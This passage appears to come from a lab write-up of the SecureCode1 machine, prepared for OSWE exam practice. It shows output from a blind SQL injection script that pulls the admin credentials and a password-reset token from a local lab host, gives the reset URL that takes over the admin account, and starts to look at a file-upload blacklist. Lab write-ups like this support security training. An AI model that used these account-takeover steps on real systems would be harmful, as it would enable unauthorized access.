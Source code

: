 Running the script we get the following response:

```python
kali@kali:~/oswe/securecode1$ python blindsql.py 192.168.26.129 
[+] Getting username
admin
[!] Done
[+] Getting password
unaccessable_until_you_change_me
[!] Done
[+] Getting token
xxtax6edS5U3hch
[!] Done
[!] Creds are admin and unaccessable_until_you_change_me
[!] Token for admin is = xxtax6edS5U3hch
```

Visit “http://192.168.26.129/login/doResetPassword.php?token=xxtax6edS5U3hch” to reset the admin password!

## Logged as Admin

We have access to admin account. Poking around we see that we can create new items and upload files that are used as the item image.

### Add new item OR Update item?

Looking at the code `newItem.php` we notice the following logic to upload a file:

1. If the file is not in `blacklisted_exts` and is in `mimes` it will be uploaded.

![](Untitled4.png)
